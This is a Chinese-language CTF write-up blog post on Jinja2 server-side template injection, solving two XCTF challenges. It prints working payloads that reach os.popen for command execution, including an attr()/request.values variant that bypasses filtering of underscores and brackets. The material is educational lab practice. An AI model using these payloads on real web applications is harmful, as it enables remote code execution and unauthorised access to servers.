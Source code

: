 ```yaml
---
title: SSTI
date: 2020-12-22 
description: XCTF华为专场的mine-1，触及到了知识盲区。这就是大佬们的签到题吗？
category: 信息安全
tags:
  - CTF
  - SSTI
---
```

# 一个小插曲，我渗透我自己
写这篇文章的时候Jekyll竟然把`{% raw %}{{}}{% endraw %}`里面给我当liquid代码执行了。同学的hexo没问题，试了一下因为多终端过于憨批，折腾了半天用回了Jekyll  
这CTF打的，我渗透我自己  
解决办法  
{% raw %}
	具体内容，我要用无数个括号{{}}{{{{{}}}}}
{% endraw %}
hh: 
{% assign openTag = '{%' %}
{% raw %}
前面的内容...
{% endraw %}
这里是要使用endraw的内容. 
- `{{ openTag }} raw %} ... {{ openTag }} endraw %}`, 不作为Liquid解释, 会作为源码显示. 例如本文上边文字部分由该对tag包围. **很重要!**.
{% raw %}
后面的内容...
{% endraw %}
# 老题新做,梦开始的地方
## 手工遍历的菜鸡，像极了当初的自己
攻防世界上的一道题：Web_python_template_injection，之前做过一次，这次感觉前前后后理解明白了（来源又是XCTF，这是杠上了）  
这道题什么都没有过滤  
ls的payload:
```
{% raw %}
{{().__class__.__base__.__subclasses__()[71].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
{% endraw %}
```
为了防止忘了，还是把每个指令的作用记录一下
```
__class__返回参数类型	().__class__就返回了tuple类型
__base__或__mro__返回基类。__mro__其实返回的是解析方法调用的顺序（method resolution order），返回的东西多
__subclasses__获取基类的子类
__getitem__切片操作。'os'所在的'site._Printer'是78个，所以用77
__init__类的初始化方法
__globals__对包含函数全局变量的字典的引用
__builtins__里面是自建模块
eval可以把数据整合成str格式
__import__("os")加载os
```
这个题不能用下面的request的方法，会直接跳过{{}}，因为是不是`/msg={{}}`，而是`/{{}} ` 
`ls`查看的是当前目录
![ls当前目录](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/ls%E5%BD%93%E5%89%8D%E7%9B%AE%E5%BD%95.png)
看到了fl4g文件  
`ls /`查看的是根目录
![根目录文件](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/ls%E6%A0%B9%E7%9B%AE%E5%BD%95.png)
因为已经看到flag了，所以用`pwd`查看绝对路径，看看flag到底在哪个文件，假装自己遍历了
![在404](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/pwd.png)
竟然在一个叫404的文件夹下面，刚开始还以为是url里的404  
`ls /404`可以看到flag文件
![看到了flag文件](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/ls%E5%BD%93%E5%89%8D%E7%9B%AE%E5%BD%95.png)
最后用`cat fl4g`读取文件
![flag](https://raw.githubusercontent.com/HideonBlack/hideonblack.github.io/master/assets/images/SSTI/flag.png)
## 都0202年了，遍历这事还是写程序吧

# XCTF mine1_1
这道题大括号里过滤了`_` `[]` `''` `""`以及`args`  
如果只过滤`[]`的话，payload长这样：
```
{% raw %}
{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}
{% endraw %}
```
因为又过滤了下划线，payload长这样：
```
{% raw %}
{{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)()|attr(request.values.x4)(77)|attr(request.values.x5)|attr(request.values.x6)|attr(request.values.x4)(request.values.x7)|attr(request.values.x4)(request.values.x8)(request.values.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()
{% endraw %}
```
`args`没被过滤的话也能用。学长也有用`request.cookie.x1`做的，用bp抓包添加cookie值。
